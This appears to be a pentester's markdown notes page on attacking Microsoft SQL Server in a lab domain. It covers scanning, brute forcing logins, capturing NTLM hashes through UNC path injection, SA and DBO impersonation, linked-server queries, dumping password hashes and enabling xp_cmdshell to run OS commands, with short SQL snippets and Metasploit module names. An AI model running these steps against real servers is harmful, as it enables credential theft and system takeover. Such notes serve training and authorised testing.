



# Pentesting MSSQL

## Initial Recon / Discovery&#x20;

### Using Nmap

**Confirm MSSQL Server is there**&#x20;


```bash
nmap -sS -Pn -n -p 1433 192.168.16.128 --script ms-sql-info,ms-sql-ntlm-info
```


<figure><figcaption></figcaption></figure>

**Good nmap scripts:**&#x20;

* **`ms-sql-info`**
  * Identify exact SQL Server version&#x20;
  * Tells Service pack level is RTM (Release to Manufacturing) which means it is first official release of the software and no update is applied later.&#x20;
  * Tells whether updates are applied or not after RTM. (`Post-SP patches applied`)
* **`ms-sql-ntlm-info`**
  * Tells that target server is connected to a domain.&#x20;
    * **Domain name:** _backontrack.local_
    * **Target Machine Name:** _DBSRV01_
    * _Using build number too we can fingerprint and identify the type of Operating system in use._&#x20;

### Using Metasploit&#x20;

```shellscript
use auxiliary/scanner/mssql/mssql_version
```

<figure><figcaption></figcaption></figure>

_Microsoft SQL Server version 15.0.2000 corresponds to the initial Release to Manufacturing (RTM) build of **Microsoft SQL Server 2019**, released around November 2019._

## Enumeration&#x20;

### Basic Information&#x20;

#### _ms-sql-empty-password_

* _It test for “password policy disabled” because then only password can be empty._&#x20;

<figure><figcaption></figcaption></figure>

## Brute Force&#x20;

Note that in MSSQL Server supports two type of authentication.

* Windows Authentication
* SQL Server Authentication


_Don't forget to brute force both the type of authentication._


**Tools that can bruteforce both type of authentication**&#x20;

* _Metasploit_
* _Netexec / Crackmapexec / nxc_

**Tools that can bruteforce SQL Authentication only**&#x20;

* _Nmap_&#x20;
* _Hydra_

### Using Metasploit

**With Option (`USE_WINDOWS_AUTHENT`) set**

<figure><figcaption></figcaption></figure>

**With Option (`USE_WINDOWS_AUTHENT`) unset**

<figure><figcaption></figcaption></figure>

### Using Netexec / Crackmapexec / nxc

<figure><figcaption></figcaption></figure>

### Using Nmap

* _**`ms-sql-brute`**: As the name suggests brute force the database. But we can do these with other tools as well._

<figure><figcaption></figcaption></figure>

### Using Hydra&#x20;

<figure><figcaption></figcaption></figure>

## Credentialed-Enumeration&#x20;

## Exploitation&#x20;


_Note that there are multiple ways to exploit same vulnerability._&#x20;


## Exploiting UNC Path Injection&#x20;

### Manual Way

#### Identification

**Manual**

UNC path injection in MSSQL is possible via `xp_dirtree`, `xp_fileexist`, `xp_subdirs`, `BULK INSERT`, `OPENROWSET`, and `xp_cmdshell`.

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

EXEC sp_configure 'allow filesystem enumeration';
GO
```

<figure><figcaption></figcaption></figure>

**Automatic**

1. [Check UNC Path Injection](using-powerupsql.md#check-for-unc-injection)
2. [Perform Vuln Audit ](using-powerupsql.md#perform-vuln-audit-without-exploit)

#### Exploitation&#x20;

1. **Start SMB Server**&#x20;

<figure><figcaption></figcaption></figure>

2. **Send request to attacker machine**&#x20;

<figure><figcaption></figcaption></figure>

3. **Boom. You got the hash**&#x20;

<figure><figcaption></figcaption></figure>

### Using Metasploit

UNC Path injection is exploited if `xp_dirtree`, `xp_filexist` is enabled for public role so that even a normal user can send query to his own machine from sql server and get the hash.&#x20;

#### Start SMB Server&#x20;

<figure><figcaption></figcaption></figure>

#### Exploit&#x20;

```
use auxiliary/admin/mssql/mssql_ntlm_stealer
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


Note the difference between hashdump and mssql\_ntlm\_stealer.&#x20;


## Exploiting SA Impersonation

### Manual Way&#x20;

#### **Identifcation**


```sql
SELECT grantee.name AS Grantee, target.name  AS CanImpersonate FROM sys.server_permissions p JOIN sys.server_principals grantee ON p.grantee_principal_id = grantee.principal_id
JOIN sys.server_principals target ON p.major_id = target.principal_id WHERE p.permission_name = 'IMPERSONATE';
GO
```


<figure><figcaption></figcaption></figure>

#### **Check if current we're sysadmin**

<figure><figcaption></figcaption></figure>

#### **Exploitation**&#x20;

```
select user_name();

select IS_SRVROLEMEMBER('sysadmin');

EXECUTE AS LOGIN = 'backontrack\sqladmin';
```

<figure><figcaption></figcaption></figure>

### Using PowerUPSQL

#### Identification&#x20;

```powershell
Invoke-SQLAuditPrivImpersonateLogin
```

<figure><figcaption></figcaption></figure>

#### Exploitation&#x20;

<figure><figcaption></figcaption></figure>

## Exploit DBO Impersonation&#x20;

### Manual Way&#x20;

#### Identification&#x20;

**Check on which database impersonation things are on**

```sql
SELECT name,SUSER_SNAME(owner_sid) AS owner, is_trustworthy_on FROM sys.databases;
```


_DBO Impersonation is possible only if the `is_trustworthy_on option` is enabled. else you'll be promoted to sa but power will limit to database scope only. It is by default on for msdb._&#x20;


<figure><figcaption></figcaption></figure>

**Check which user can impersonate dbo**&#x20;

```sql
USE msdb;
GO

SELECT
    grantee.name AS impersonator,
    target.name  AS impersonation_target,
    perm.permission_name,
    perm.state_desc
FROM sys.database_permissions perm
JOIN sys.database_principals grantee
    ON perm.grantee_principal_id = grantee.principal_id
JOIN sys.database_principals target
    ON perm.major_id = target.principal_id
WHERE perm.permission_name = 'IMPERSONATE'
  AND target.name = 'dbo';
```

<figure><figcaption></figcaption></figure>

#### Exploitation&#x20;

<figure><figcaption></figcaption></figure>

<details>

<summary>Proof that if <code>is_trustworthy_on</code> option is disabled then even after impersonation we are limited to database scope. </summary>

<figure><figcaption></figcaption></figure>

</details>

## Exploiting Linked Servers&#x20;

### Identification&#x20;

```sql
EXEC sp_linkedservers;
```

<figure><figcaption></figcaption></figure>

### Exploitation


```sql
select * from openquery(DC01,"select @@@servername,SYSTEM_USER,IS_SRVROLEMEMBER('sysadmin') AS is_sysadmin");

EXEC ("SELECT @@servername,suser_sname(),IS_SRVROLEMEMBER('sysadmin') AS is_sysadmin") AT DC01;
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Post-Exploitation&#x20;

## Dump Hashes of SQL Authentication&#x20;

### Using Manual Way&#x20;

```sql
SELECT name, password_hash FROM sys.sql_logins;
```

<figure><figcaption></figcaption></figure>

### Using PowerUpSQL&#x20;


_It requires sysadmin permission._&#x20;


<figure><figcaption></figcaption></figure>

### Using Metasploit

```shellscript
use auxiliary/scanner/mssql/mssql_hashdump
```

<figure><figcaption></figcaption></figure>

## Execute Commands&#x20;

Only sysadmins can execute commands because sysadmin has the power to modify the value of `xp_cmdshell`.&#x20;

### Using PowerUpSQL&#x20;

Actually in the backend same thing is hapenning when we use PowerUpSQL.&#x20;

<figure><figcaption></figcaption></figure>

### Using Impacket-toolkit

<figure><figcaption></figcaption></figure>

By modifying the value of the `xp_cmdshell` we can execute commands as higher authority user on remote machine.&#x20;

### Using SQL terminal (Manual)

#### **Actual Concept:**&#x20;

```sql
SQL query → SQL engine → Windows OS → command execution → output back to SQL
```

#### Check if you're a sysadmin

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
GO
--> 1 --> enabled
--> 2 --> disabled
```

#### Check if xp\_cmdshell is enabled&#x20;

```sql
SELECT name,value_in_use FROM sys.configurations WHERE name = 'xp_cmdshell';
GO
--> 1 --> enabled
--> 2 --> disabled
```

#### Enable \`xp\_cmdshell\` if disabled

```sql
USE master;
GO
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
GO
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
```

#### Execute Command

<figure><figcaption></figcaption></figure>

